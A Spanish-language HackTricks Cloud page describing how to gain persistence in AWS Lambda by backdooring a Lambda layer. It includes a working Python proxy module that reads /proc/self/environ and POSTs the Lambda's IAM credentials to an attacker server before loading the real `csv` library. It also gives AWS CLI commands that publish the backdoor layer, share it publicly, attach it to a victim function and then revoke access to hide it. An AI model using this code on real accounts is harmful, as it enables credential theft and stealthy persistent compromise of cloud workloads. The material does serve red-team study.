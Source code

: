 # AWS - Persistencia de Capas de Lambda

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**repos de HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

## Capas de Lambda

Una capa de Lambda es un archivo .zip que **puede contener código adicional** u otro contenido. Una capa puede contener bibliotecas, un [runtime personalizado](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html), datos o archivos de configuración.

Es posible incluir hasta **cinco capas por función**. Cuando incluyes una capa en una función, el **contenido se extrae en el directorio `/opt`** en el entorno de ejecución.

Por **defecto**, las **capas** que creas son **privadas** para tu cuenta de AWS. Puedes optar por **compartir** una capa con otras cuentas o **hacer** que la capa sea **pública**. Si tus funciones consumen una capa que publicó otra cuenta, tus funciones pueden **seguir utilizando la versión de la capa después de que haya sido eliminada, o después de que se revoque tu permiso para acceder a la capa**. Sin embargo, no puedes crear una nueva función o actualizar funciones utilizando una versión de capa eliminada.

Las funciones desplegadas como una imagen de contenedor no utilizan capas. En su lugar, empaquetas tu runtime preferido, bibliotecas y otras dependencias en la imagen del contenedor cuando construyes la imagen.

### Ruta de carga de Python

La ruta de carga que Python utilizará en lambda es la siguiente:
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
Verifica cómo las **segundas** y **terceras** **posiciones** son ocupadas por directorios donde **lambda layers** descomprimen sus archivos: **`/opt/python/lib/python3.9/site-packages`** y **`/opt/python`**

{% hint style="danger" %}
Si un atacante logra **backdoor** una **layer** de lambda utilizada o **agregar una** que estará **ejecutando código arbitrario cuando se cargue una biblioteca común**, podrá ejecutar código malicioso con cada invocación de lambda.
{% endhint %}

Por lo tanto, los requisitos son:

* **Verificar bibliotecas** que son **cargadas** por el código de las víctimas
* Crear una **biblioteca proxy con lambda layers** que **ejecutará código personalizado** y **cargará la biblioteca original**.

### Bibliotecas precargadas

{% hint style="warning" %}
Al abusar de esta técnica encontré una dificultad: Algunas bibliotecas ya están **cargadas** en el tiempo de ejecución de python cuando se ejecuta tu código. Esperaba encontrar cosas como `os` o `sys`, pero **incluso la biblioteca `json` estaba cargada**.\
Para abusar de esta técnica de persistencia, el código necesita **cargar una nueva biblioteca que no esté cargada** cuando se ejecuta el código.
{% endhint %}

Con un código en python como este es posible obtener la **lista de bibliotecas que están precargadas** dentro del tiempo de ejecución de python en lambda:
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
Y esta es la **lista** (verifica que bibliotecas como `os` o `json` ya estén allí)
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
Y esta es la lista de **bibliotecas** que **lambda incluye instaladas por defecto**: [https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### Puerta trasera en la capa de Lambda

En este ejemplo supongamos que el código objetivo está importando **`csv`**. Vamos a **poner una puerta trasera en la importación de la biblioteca `csv`**.

Para hacer eso, vamos a **crear el directorio csv** con el archivo **`__init__.py`** en él en una ruta que es cargada por lambda: **`/opt/python/lib/python3.9/site-packages`**\
Luego, cuando la lambda se ejecute e intente cargar **csv**, nuestro **archivo `__init__.py` será cargado y ejecutado**.\
Este archivo debe:

* Ejecutar nuestra carga útil
* Cargar la biblioteca csv original

Podemos hacer ambas cosas con:
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
Luego, crea un zip con este código en la ruta **`python/lib/python3.9/site-packages/__init__.py`** y agrégalo como una capa lambda.

Puedes encontrar este código en [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor)

El payload integrado **enviará las credenciales de IAM a un servidor LA PRIMERA VEZ que se invoque o DESPUÉS de un reinicio del contenedor lambda** (cambio de código o lambda fría), pero **otras técnicas** como las siguientes también podrían integrarse:

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### Capas Externas

Ten en cuenta que es posible usar **capas lambda de cuentas externas**. Además, una lambda puede usar una capa de una cuenta externa incluso si no tiene permisos.\
También ten en cuenta que el **número máximo de capas que una lambda puede tener es 5**.

Por lo tanto, para mejorar la versatilidad de esta técnica, un atacante podría:

* Puente de una capa existente del usuario (nada es externo)
* **Crear** una **capa** en **su cuenta**, dar acceso a la **cuenta de la víctima** para usar la capa, **configurar** la **capa** en la Lambda de la víctima y **eliminar el permiso**.
* La **Lambda** aún podrá **usar la capa** y la **víctima no** tendrá ninguna forma fácil de **descargar el código de las capas** (aparte de obtener un rev shell dentro de la lambda)
* La víctima **no verá capas externas** utilizadas con **`aws lambda list-layers`**

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{% endcode %}

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos de github.

</details>
{% endhint %}
